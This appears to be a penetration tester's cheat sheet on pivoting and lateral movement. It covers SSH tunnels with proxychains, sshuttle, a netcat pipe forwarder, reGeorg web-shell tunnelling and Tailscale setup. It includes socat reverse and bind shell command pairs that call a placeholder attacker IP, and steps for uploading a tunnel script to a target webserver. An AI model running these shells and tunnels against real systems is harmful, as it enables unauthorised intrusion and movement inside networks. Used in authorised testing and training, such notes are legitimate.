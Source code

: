 #pivoting #lateral-movement
# Check if your tunnel is active and running: 

- nc -z localhost port || echo 'no tunnel open'
- netstat -lpnt | grep port | grep ssh
- ps aux | grep ssh
- ss -ntlp

# SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: ssh -D localhost:local port -f -N user@localhost -p Target Port
2. Setup ProxyChains. Edit the following config file (/etc/proxychains.conf)
3. Add the following line into the config: Socks5 127.0.0.1 Local Port
4. Run commands through the tunnel: proxychains command

# SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

- sshuttle -r root@172.21.0.0 10.2.2.0/24
- sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa' # Daemon mode
- sshuttle -D --dns -vr user@yourserver.com 0/0 --ssh-cmd 'ssh -i /your/key/path.pem' # Daemon mode with DNS
- Working with your .ssh/config:
```
sshuttle --dns -vr user@server 0/0 --ssh-cmd 'ssh jumpbox'
sshuttle --dns -r myserver 0/0 -x <server-IP>
```

# Socat

## Bind Shell

```
victim> socat TCP-LISTEN:443,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:443
```

## Reverse Shell

```
attacker> socat TCP-LISTEN:443,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:443 EXEC:bash,pty,stderr,setsid,sigint,sane
```

# Port Forwarder
1. mknod pivot p
2. nc -l -p < port to listen on> 0<pivot | nc "target" "pivot-port" 1>pivot

# reGeorg

Source: https://github.com/sensepost/reGeorg

Note: reGeorg requires Python 2.7 and the following modules:

urllib3 - HTTP library with thread-safe connection pooling, file post, and more.

1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver
2. Configure the tool to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
```
python reGeorgSocksProxy.py -p 8080 -u http://upload.megacorpone.net:8080/tunnel/tunnel.jsp
```

# TailScale

Tailscale is a secure, peer-to-peer Virtual Private Network (VPN) service built on the WireGuard protocol. It simplifies network connectivity by creating a private mesh network between devices, regardless of their physical location, using public key authentication. Tailscale is ideal for securely accessing resources like internal servers or databases without complex firewall configurations or exposing them to the internet.

## A WORD OF CAUTION:

 Depending on the assessment or engagement, using tailscale as a peer to peer will send traffic between your system and there servers to access the target system you are using. Take caution and consult with the client for approval to use tailscale. 

# Setting up Tailscale for Linux: 

Source: https://tailscale.com/download/linux
Source for the Oneliner: https://github.com/tailscale/tailscale/blob/main/scripts/installer.sh

Oneliner: curl -fsSL https://tailscale.com/install.sh | sh

Note you will need sudo access to run tailscale on linux. 

Starting tailscale on linux: 

- sudo tailscale up
-  sudo tailscale login

Once you are connected you can check to see what IP Address is given you: 
-  sudo tailscale -ip 4

# TailScale Linux Client Help Menu

```
The easiest, most secure way to use WireGuard.

USAGE
  tailscale [flags] <subcommand> [command flags]

For help on subcommands, add --help after: "tailscale status --help".

This CLI is still under active development. Commands and flags will
change in the future.

SUBCOMMANDS
  up          Connect to Tailscale, logging in if needed
  down        Disconnect from Tailscale
  set         Change specified preferences
  login       Log in to a Tailscale account
  logout      Disconnect from Tailscale and expire current node key
  switch      Switches to a different Tailscale account
  configure   [ALPHA] Configure the host to enable more Tailscale features
  netcheck    Print an analysis of local network conditions
  ip          Show Tailscale IP addresses
  dns         Diagnose the internal DNS forwarder
  status      Show state of tailscaled and its connections
  ping        Ping a host at the Tailscale layer, see how it routed
  nc          Connect to a port on a host, connected to stdin/stdout
  ssh         SSH to a Tailscale machine
  funnel      Serve content and local servers on the internet
  serve       Serve content and local servers on your tailnet
  version     Print Tailscale version
  web         Run a web server for controlling Tailscale
  file        Send or receive files
  bugreport   Print a shareable identifier to help diagnose issues
  cert        Get TLS certs
  lock        Manage tailnet lock
  licenses    Get open source license information
  exit-node   Show machines on your tailnet configured as exit nodes
  update      Update Tailscale to the latest/different version
  whois       Show the machine and user associated with a Tailscale IP (v4 or v6)
  drive       Share a directory with your tailnet
  completion  Shell tab-completion scripts     
```
## Check for other connections:

- sudo tailscale -status
## SSH through Tailscale:

- sudo tailscale ssh "IP Address"
- sudo tailscale "Hostname"



